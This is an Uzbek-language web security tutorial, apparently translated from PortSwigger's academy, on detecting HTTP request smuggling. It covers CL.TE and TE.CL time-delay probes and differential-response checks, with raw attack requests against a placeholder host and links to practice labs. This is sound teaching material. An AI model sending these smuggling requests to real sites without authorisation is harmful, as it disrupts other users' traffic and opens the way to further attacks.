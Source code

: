 # Topish

Bu bo'limda HTTP Request Smuggling zaifliklarini topishning bir qancha usullarini ko'rsatamiz.

## HTTP Request Smuggling zaifliklarini time delay orqali topish <a href="#http-request-smuggling-zaifliklarini-vaqt-kechiktirishlari-orqali-topish" id="http-request-smuggling-zaifliklarini-vaqt-kechiktirishlari-orqali-topish"></a>

HTTP Request Smuggling zaifliklarini aniqlashning eng samarali usuli, agar zaiflik mavjud bo'lsa, websayt responsida yuklanish vaqtni kechiktiradigan so'rovlarni yuborishdir. Ushbu usul Burp Scanner tomonidan Request Smuggling zaifliklarni aniqlashni avtomatlashtirish uchun qo'llaniladi.

## CL.TE zaifliklarini time delay orqali topish <a href="#clte-zaifliklarini-vaqt-kechiktirishlari-orqali-topish" id="clte-zaifliklarini-vaqt-kechiktirishlari-orqali-topish"></a>

Agar web saytda CL.TE zaifligi mavjud bo'lsa, unda quyidagi request time delay bilan amalga oshadi:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

Frontend server `Content-Length` dan foydalanganligi sababli, so'rovning faqat bir qisminigina yuboradi va `X` olib tashlanadi. Backend server `Transfer-Encoding` headeridan foydalanadi u birinchi bo'lakni qabul qiladi va ikkinchi bo'lakni kutadi. Shu sababdan time delay kuzatiladi.

## TE.CL zaifliklarini time delay orqali topish <a href="#tecl-zaifliklarini-vaqt-kechiktirishlari-orqali-topish" id="tecl-zaifliklarini-vaqt-kechiktirishlari-orqali-topish"></a>

Agar web saytda TE.CL zaifligi mavjud bo'lsa, unda quyidagi so'rov time delay bilan amalga oshadi:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

Frontend server `Transfer-Encoding` headeridan foydalanadi va u faqatgina so'rovning bir qisminigina yuboradi, `X` esa olib tashlanadi. Back-end server `Content-Length` headeridan foydalanadi, so'rov tanasida ko'proq kontentni kutadi va qolgan kontent kelishini kutadi. Shu sababdan kechikishlar kuzatiladi.

:::info **Eslatma**

TE.CL zaifligini test qilayotganingizda agar web sayt CL.TE ga zaif bo'lsa unda web saytdagi boshqa foydalanuvchilarga ham ta'sir etishi mumkin. Ushbu holatni oldini olish uchun oldin CL.TE zaifligiga test qilib ko'rib uning muvaffaqiyatsiz ekanligiga ishonch hosil qilib keyin TE.CL zaifligiga test qiling.
:::

## Turli responselar orqali HTTP request smuggling zaifliklarini tasdiqlash <a href="#http-request-smuggling-zaifliklarini-har-xil-response-lar-orqali-qabul-qilish" id="http-request-smuggling-zaifliklarini-har-xil-response-lar-orqali-qabul-qilish"></a>

Request Smuggling zaifligi ehtimoli aniqlanganda, website responsening javoblar tarkibida turli farqlarni yuzaga keltirish orqali zaiflik bor yo'qligi haqida dalilga erisha olasiz. Bu web saytga ketma-ket ikkita so'rov yuborishni o'z ichiga oladi:

* Keyingi so'rovni qayta ishlashga xalaqit berishga mo'ljallangan "xujum" so'rovi.
* "normal" so'rov

Agar "normal" so'rovning response kutilgan tarkibni o'z ichiga olgan bo'lsa, zaiflik tasdiqlanadi.

Masalan quyidagi normal so'rovga qarang:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Ushbu reqest so'rov natijalari bilan 200 status kodli normal HTTP response qabul qiladi.

Bu soʻrovni buzish uchun zarur boʻlgan hujum requesti,  CL.TE va TE.CL request smugglinga bog'liq.

## Turli responselar orqali CL.TE zaifliklarini tasdiqlash <a href="#har-xil-javoblar-yordamida-clte-zaifliklarini-tasdiqlash" id="har-xil-javoblar-yordamida-clte-zaifliklarini-tasdiqlash"></a>

CL.TE zaifliklarini aniqlashingiz uchun quyidagicha xujum uyushtirishingiz zarur:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

Agarda xujum muvaffaqiyatli yakunlansa, pastdagi oxirgi ikki qatorni backend keyingi so'rov deb qabul qiladi. Bu esa "normal" so'rovga ta'sir o'tkazishga sabab bo'ladi:

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Bu soʻrovda yaroqsiz URL manzil borligi uchun server 404 status kod bilan javob beradi, bu esa xujum soʻrovi haqiqatan ham unga xalaqit berganligini koʻrsatadi.

:::caution **Lab**
 [HTTP request smuggling, Turli responselar orqali CL.TE zaifliklarini tasdiqlash  ≫](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses)
:::

## Turli responselar orqali TE.CL zaifliklarini tasdiqlash <a href="#har-xil-javoblar-yordamida-tecl-zaifliklarini-tasdiqlash" id="har-xil-javoblar-yordamida-tecl-zaifliklarini-tasdiqlash"></a>

TE.CL zaifliklarini aniqlashingiz uchun quyidagicha xujum uyushtirishingiz zarur:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

:::info **Eslatma**

Ushbu so'rovni Burp Repeaterdan orqali yuborishingiz uchun, Repeater menusidan "Update Content-Length" xususiyatini o'chirishingiz zarur.

0 gacha `\r\n\r\n` ketma-ketligini kiritishingiz kerak.&#x20;
:::

Agar hujum muvaffaqiyatli bo'lsa, `GET /404` dan boshlab hammasi backend server tomonidan qabul qilingan keyingi so'rovga tegishli sifatida ko'rib chiqiladi. Natijada, mana bu oddiy so'rov quyidagicha ko'rinadi:

```http
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Bu soʻrovda yaroqsiz URL manzil borligi uchun server 404 status kodi bilan javob beradi, bu esa xujum soʻrovi haqiqatan ham unga xalaqit berganini koʻrsatadi.

:::caution **Lab**
 [HTTP request smuggling, turli responselar orqali TE.CL zaifliklarini tasdiqlash ≫](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)
:::

:::info **Eslatma**

Request Smuggling zaifligini boshqa requestlarga aralashish orqali tasdiqlashga urinayotganda ba'zi muhim narsalarni yodda tutish kerak:

* "Xujum" requesti va "oddiy" request turli tarmoqlarga ulangan holda serverga yuborilishi kerak. Ikkala requestni ham bitta tarmoq orqali yuborganda zaiflikni tasdiqlab bo'lmaydi.&#x20;
* "Xujum" requesti va "oddiy" request imkon qadar bir xil URL va parametr nomlaridan foydalanishi kerak. Buning sababi shundaki, ko'plab zamonaviy web saytlar front-end requstlarini URL va parametrlar asosida turli serverlarga yo'naltiradi. Xuddi shu URL va parametrlardan foydalanish so'rovlarning bir xil server tomonidan qayta ishlanishi ehtimolini oshiradi, bu xujum samarali bo'lishi uchun zarurdir.
* "Xujum" request orqali biror aralashuvni aniqlash uchun "oddiy" requestni yuborayotganingizda,  sayt bir vaqtning o'zida qabul qilayotgan boshqa so'rovlar,(boshqa foydalanuvchilarning so'rovlari) bilan ham requestni kim birinchi yuborishga raqobatlashayot bo'lasiz. "Xujum" so'rovidan so'ng "oddiy" so'rovni  darhol yuborishingiz kerak. Agar sayt band bo'lsa, zaiflikni tasdiqlash uchun bir necha marta urinib ko'rishingiz kerak bo'lishi mumkin.
* Ba'zi web saytlarda front-end server load balancer vazifasini bajaradi va ba'zi lod balancer algoritmiga muvofiq so'rovlarni turli xil backend tizimlarga yo'naltiradi. Agar sizning "xujum" va "oddiy" so'rovlaringiz turli xil backend tizimlarga yo'naltirilsa, xujum muvaffaqiyatsiz bo'ladi.&#x20;
* Agar sizning xujumingiz keyingi so‘rovga xalaqit bersayu, lekin siz aralashuvni aniqlash uchun yuborgan “oddiy” so‘rov bo‘lmasa, bu sizning xujumingizdan boshqa web sayt foydalanuvchisiga ta’sir qilganligini anglatadi. Tekshirishni davom etsangiz, bu boshqa foydalanuvchilarga tasir qilishi mumkin, ehtiyot bo'lishingiz kerak.
:::

:::info **Batafsil o'qish**

[HTTP request smuggling zaifliklaridan foydalanish ☰](foydalanish)
:::
